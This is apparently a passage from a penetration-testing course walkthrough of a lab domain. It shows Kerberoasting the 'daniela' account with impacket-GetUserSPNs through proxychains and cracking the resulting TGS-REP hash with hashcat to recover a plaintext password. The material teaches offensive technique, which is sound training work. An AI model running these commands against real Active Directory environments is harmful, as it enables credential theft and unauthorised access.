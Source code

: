 Based on the information from the previous Learning Unit, the web application on INTERNALSRV1 is the most promising target now. Because it is a WordPress site, we could use WPScan again or use password attacks to successfully log in to WordPress's dashboard.

Every time we obtain new information, we should reevaluate what we already know. For our situation, this means that we already obtained the information that *daniela* has an http SPN mapped to INTERNALSRV1. Our assumption at this point is that *daniela* may be able to log in to the WordPress login page successfully.

Since *daniela* is kerberoastable, we can attempt to retrieve the user's password this way. If we can crack the [*TGS-REP*](https://en.wikipedia.org/wiki/Kerberos_\(protocol\)) password hash, we may be able to log in to WordPress and gain further access to INTERNALSRV1.

If this attack vector fails, we can use WPScan and other web application enumeration tools to identify potential vulnerabilities on INTERNALSRV1 or switch targets to MAILSRV1.

Let's perform Kerberoasting on Kali with *impacket-GetUserSPNs* over the SOCKS5 proxy using Proxychains. To obtain the TGS-REP hash for *daniela*, we must provide the credentials of a domain user. Because we only have one valid set of credentials, we'll use *john*.

```
kali@kali:~/beyond$ proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName      Name     MemberOf  PasswordLastSet             LastLogon                   Delegation 
------------------------  -------  --------  --------------------------  --------------------------  ----------
http/internalsrv1.beyond.com  daniela            2022-09-29 04:17:20.062328  2022-10-05 03:59:48.376728             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$4c6c4600baa0ef09e40fde6130e3d770$49023c03dcf9a21ea5b943e179f843c575d8f54b1cd85ab12658364c23a46fa53b3db5f924a66b1b28143f6a357abea0cf89af42e08fc38d23b205a3e1b46aed9e181446fa7002def837df76ca5345e3277abaa86...
2e430c5a8f0235b45b66c5fe0c8b4ba16efc91586fc22c2c9c1d8d0434d4901d32665cceac1ab0cdcb89ae2c2d688307b9c5d361beba29b75827b058de5a5bba8e60af3562f935bd34feebad8e94d44c0aebc032a3661001541b4e30a20d380cac5047d2dafeb70e1ca3f9e507eb72a4c7
```

> Listing 69 - Kerberoasting the daniela user account

Let's store the hash in **/home/kali/beyond/daniela.hash** and launch Hashcat to crack it.

```
kali@kali:~/beyond$ sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force
...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$b0750f4754ff26fe77d2288ae3cca539$0922083b88587a2e765298cc7d499b368f7c39c7f6941a4b419d8bb1405e7097891c1af0a885ee76ccd1f32e988d6c4653e5cf4ab9602004d84a6e1702d2fbd5a3379bd376de696b0e8993aeef5b1e78fb24f5d3c
...
3d3e9d5c0770cc6754c338887f11b5a85563de36196b00d5cddecf494cfc43fcbef3b73ade4c9b09c8ef405b801d205bf0b21a3bca7ad3f59b0ac7f6184ecc1d6f066016bb37552ff6dd098f934b2405b99501f2287128bff4071409cec4e9545d9fad76e6b18900b308eaac8b575f60bb:DANIelaRO123
...
```

